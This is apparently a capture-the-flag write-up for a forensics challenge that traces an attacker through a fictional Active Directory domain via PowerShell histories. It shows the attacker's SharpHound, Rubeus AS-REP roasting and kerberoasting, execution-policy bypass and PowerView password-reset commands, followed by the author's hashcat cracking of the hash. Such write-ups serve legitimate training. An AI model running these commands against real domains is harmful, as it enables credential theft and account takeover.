



## Part 1: Enumerating Dan's Account

Since the attacker got access to dan's account, lets check their powershell logs for any actions

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat dan/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd Desktop
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
powershell -ep bypass
.\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
Import-Module \SharpHound.ps1
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\dan\Documents -OutputPrefix "wolvctf_audit"
.\Rubeus.exe asreproast /user:emily /domain:wolvctf.corp /dc:DC01.wolvctf.corp > asreproast.output
 .\Rubeus.exe kerberoast > kerberoast.output
runas /User:wolvctf\emily cmd

```


Looks like they saved hashes obtained by Rubeus in some files, lets check the ASREPRoasted one:


```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat dan/Desktop/asreproast.output 
��
   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0 


[*] Action: AS-REP roasting

[*] Target User            : emily
[*] Target Domain          : wolvctf.corp
[*] Target DC              : DC01.wolvctf.corp

[*] Using domain controller: DC01.wolvctf.corp (fe80::af8f:bc46:1257:36be%5)
[*] Building AS-REQ (w/o preauth) for: 'wolvctf.corp\emily'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$emily@wolvctf.corp:34C3460101DA5A3081FA4F6518A0ECE1$619944A029EF908C7
      8A80E2559C06788E2D86AEB1C94CD97E4540E5EA57C550C7FBD768D6EA24DBC66CFC6B8A9E39C364
      39CA4B50DCF29F3C078785F876835B239B3628F561D080F83294C9A3BC8D1C4DEC538A15339257DC
      AAB20F33EE168BDEA0671C4AB92DA6B089D7700E7BE42564706BFA903654EDF11376C1994BBE6B9C
      C65E53275EF3148B638AA5A52284E29912C3CA2171FD50FBD6929511416B51F8C4F8CB9383DA74E8
      DB3B0493A2654093C44BC399695525DD90E271A90C9992024A1D05E4188EC588663D2D849142AED6
      5C5B77C38ED3DC7BB65178A565248F199B5DC2D382D2DA016DAD023

[*_*] d2N0Znthc3IzcHIwNHN0M2Q/Xw==               
```



The attacker ran Rubeus to obtain the ASREPRoasted hash, and appended the first part of the flag to the output file:

https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=ZDJOMFpudGhjM0l6Y0hJd05ITjBNMlEvWHc9PSA


Flag part 1:

```
wctf{asr3pr04st3d?_
```

---

## Flag Part 2: Enumerating Emily's account

Lets clean up the hash from before

```
$krb5asrep$emily@wolvctf.corp:34C3460101DA5A3081FA4F6518A0ECE1$619944A029EF908C78A80E2559C06788E2D86AEB1C94CD97E4540E5EA57C550C7FBD768D6EA24DBC66CFC6B8A9E39C36439CA4B50DCF29F3C078785F876835B239B3628F561D080F83294C9A3BC8D1C4DEC538A15339257DCAAB20F33EE168BDEA0671C4AB92DA6B089D7700E7BE42564706BFA903654EDF11376C1994BBE6B9CC65E53275EF3148B638AA5A52284E29912C3CA2171FD50FBD6929511416B51F8C4F8CB9383DA74E8DB3B0493A2654093C44BC399695525DD90E271A90C9992024A1D05E4188EC588663D2D849142AED65C5B77C38ED3DC7BB65178A565248F199B5DC2D382D2DA016DAD023
```

and attempt to crack it with rockyou

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/scratch]
└─$ sudo hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt --force                         
[sudo] password for kali: 
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

...

$krb5asrep$emily@wolvctf.corp:34c3460101da5a3081fa4f6518a0ece1$619944a029ef908c78a80e2559c06788e2d86aeb1c94cd97e4540e5ea57c550c7fbd768d6ea24dbc66cfc6b8a9e39c36439ca4b50dcf29f3c078785f876835b239b3628f561d080f83294c9a3bc8d1c4dec538a15339257dcaab20f33ee168bdea0671c4ab92da6b089d7700e7be42564706bfa903654edf11376c1994bbe6b9cc65e53275ef3148b638aa5a52284e29912c3ca2171fd50fbd6929511416b51f8c4f8cb9383da74e8db3b0493a2654093c44bc399695525dd90e271a90c9992024a1d05e4188ec588663d2d849142aed65c5b77c38ed3dc7bb65178a565248f199b5dc2d382d2da016dad023:youdontknowmypasswordhaha
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$emily@wolvctf.corp:34c3460101da5a3081fa4...dad023
Time.Started.....: Wed Mar 19 00:58:29 2025, (5 secs)
Time.Estimated...: Wed Mar 19 00:58:34 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   514.2 kH/s (1.02ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2574336/14344385 (17.95%)
Rejected.........: 0/2574336 (0.00%)
Restore.Point....: 2573312/14344385 (17.94%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: youkids -> youarehot1
Hardware.Mon.#1..: Util: 64%

Started: Wed Mar 19 00:58:27 2025
Stopped: Wed Mar 19 00:58:36 2025

```


Now that Emily's password was able to be obtained via rockyou, lets check her powershell history to see what the attacker did next:

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat emily/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd C:\Users\emily
tree /f /a > tree.txt
type tree.txt
cd Documents
dir
type README
echo "James asked me to keep his password secret, so I made sure to take extra precautions." >> C:\Users\Public\loot.txt
echo "Note to self: Password for the zip is same as mine, with 777 at the end" >> C:\Users\Public\loot.txt
del README
cp .\important.7z C:\Users\Public
del C:\Users\Public\loot.txt
del C:\Users\Public\important.7z
runas /User:wolvctf\james cmd

```


So it looks like the attacker deleted a README file containing the following:

```
James asked me to keep his password secret, so I made sure to take extra precautions.

Password for the zip is same as mine, with 777 at the end
```

In her directory we also see the following

```
──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat emily/tree.txt                                                                       
��Folder PATH listing
Volume serial number is 1E33-4D3F
C:.
|   tree.txt
|   
+---Desktop
+---Documents
|       important.7z
|       README
|       
+---Downloads
+---Favorites
+---Links
+---Music
+---Pictures
+---Saved Games
\---Videos
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ 

```


Luckily for us, the `important.7z` is still there. Since we know her password, lets try using what the README said and do the following


```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cp emily/Documents/important.7z ../scratch/    
                                                                               
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cd ../scratch                                  
                             
┌──(kali㉿kali)-[~/ctf/Active/challenge/scratch]
└─$ 7z x -p"youdontknowmypasswordhaha777" important.7z

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:128 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 2220152 bytes (2169 KiB)

Extracting archive: important.7z
--
Path = important.7z
Type = 7z
Physical Size = 2220152
Headers Size = 264
Method = LZMA2:3m 7zAES
Solid = +
Blocks = 1

Everything is Ok

Folders: 1
Files: 3
Size:       2252831
Compressed: 2220152

```


Looks like the extraction worked!

Now lets see if there's anything we can do with these files

```
┌──(kali㉿kali)-[~/…/Active/challenge/scratch/important]
└─$ binwalk car.jpeg    

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
9296          0x2450          JPEG image data, JFIF standard 1.01

                                                                                                                                                                                             
┌──(kali㉿kali)-[~/…/Active/challenge/scratch/important]
└─$ dd if=car.jpeg of=extracted_hidden.jpg bs=1 skip=9296
67772+0 records in
67772+0 records out
67772 bytes (68 kB, 66 KiB) copied, 0.120803 s, 561 kB/s
                                                              
```


Binary walking `car.jpg` reveals another photo hidden inside. This contains James's password, along with the second part of the flag

```
sh0uldv3_3nabl3d_s0m3_k3b3r0s_pr34th_4nd_
```

---

## Part 3: Enumerating James's Account

Same as before, check James's history

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat james/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd C:\Users\Public\Documents
mv .\PowerView.txt .\PowerView.ps1
powershell -ep bypass
Import-Module .\PowerView.ps1
Find-DomainProcess
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force`
Set-DomainUserPassword -Identity 'emily' -AccountPassword $NewPassword
$NewPassword = ConvertTo-SecureString 'd0nt_us3_4ll3xtendedr1ghts}' -AsPlainText -Force`
Set-DomainUserPassword -Identity 'patrick' -AccountPassword $NewPassword
runas /User:wolvctf\patrick cmd
```



We can see in the Bloodhound output that James has `AllExtendedRigts` to both `Emily` and `Patrick`. It appears as Patrick's new password is the third part of the flag:

```
d0nt_us3_4ll3xtendedr1ghts}
```

---

## Final flag:

```
wctf{asr3pr04st3d?_sh0uldv3_3nabl3d_s0m3_k3b3r0s_pr34th_4nd_d0nt_us3_4ll3xtendedr1ghts}
```

